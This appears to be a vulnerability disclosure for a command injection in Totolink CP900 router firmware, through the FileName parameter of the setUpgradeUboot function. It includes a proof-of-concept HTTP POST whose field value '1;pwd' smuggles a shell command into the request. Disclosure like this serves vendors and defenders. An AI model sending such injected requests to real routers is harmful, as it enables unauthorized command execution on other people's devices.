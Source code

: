 ## Totolink CP900 command injection

### Overview

* Vendor: TOTOLINK

* Product: Totolink CP900
* Version: V6.3c.1144_B20190715

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://totolink.id/data/upload/20190823/72f2e599854470f5752826473d74b7e0.zip

### Vulnerability details

Totolink CP900 V6.3c.1144_B20190715 was found to contain a command injection vulnerability in the `setUpgradeUboot` function via the `FileName` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

![image](./img/2.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 141
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "setting/setUpgradeUboot",
    "FileName": "1;pwd"
}
```

